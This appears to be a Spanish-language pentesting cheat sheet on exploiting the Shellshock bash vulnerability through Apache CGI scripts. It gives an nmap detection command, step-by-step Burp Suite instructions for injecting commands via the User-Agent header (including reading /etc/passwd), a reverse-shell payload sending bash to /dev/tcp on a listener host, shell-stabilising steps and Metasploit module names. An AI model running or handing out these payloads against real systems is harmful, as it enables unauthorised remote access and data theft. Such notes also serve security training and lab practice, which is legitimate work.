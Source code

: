 
# Introducción
Es una familia de vulnerabilidades encontradas en bash que permitían RCE, permitiendo acceder de forma remota al sistema por medio de una reverse shell. Los comandos se ejecutan después de una serie de caracteres (){ :; };
Los scripts de cgi son usados por Apache y permiten ejecutar comandos en el sistema linux, después el resultado es mostrado al cliente.

Si tras ver una página web, vemos que hay un contenido que, viendo el código fuente de la página, lo muestra haciendo una petición a algún recurso .cgi, por ejemplo gettime.cgi. Sabremos que el apache está usando scripts cgi. 

## MANUAL ATTACK
Podemos comprobar si el apache es vulnerable a shellsock con nmap:
nmap -sV-p80 --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" <ip>

Si es **VULNERABLE** podremos inyectar comandos utilizando cabeceras HTTP, en concreto la de user agent.

SHELLSHOCK ATTACK

1- Abrimos foxyproxy y burpsuite (estando en la ruta web del .cgi. Ejemplo http:ejemplo.com/gettime.cgi)
2- Intercept on->Repeater
3- Manipulamos la cabecera User-Agent. Eliminamos su contenido y lo dejamos como:
User-Agent: () { :; }; echo; echo;<command>
Ejemplo:
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'

Entonces para acceder remotamente tenemos que:
1.- Nos ponemos en escucha con nc -nvlp 4444
2.- Hacemos una peticion GET a la ruta del fichero .cgi manipulando con burpsuite la cabecera User-Agent tal que así:
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/7777 0>&1'

3.- Tratamiento de la tty:
     1-script /dev/null -c bash
     2- control+z
     3.- stty raw -echo;fg
     4.- reset
     5.- export TERM=xterm



# CON METASPLOIT

El scanner para ver si es vulnerable es: auxiliary/scanner/http/apache_mod_cgi_bash_env

el módulo es exploit/multi/http/apache_mod_cgi_bash_env_exec

TARGETURI: El path al script.cgi: /gettime.cgi
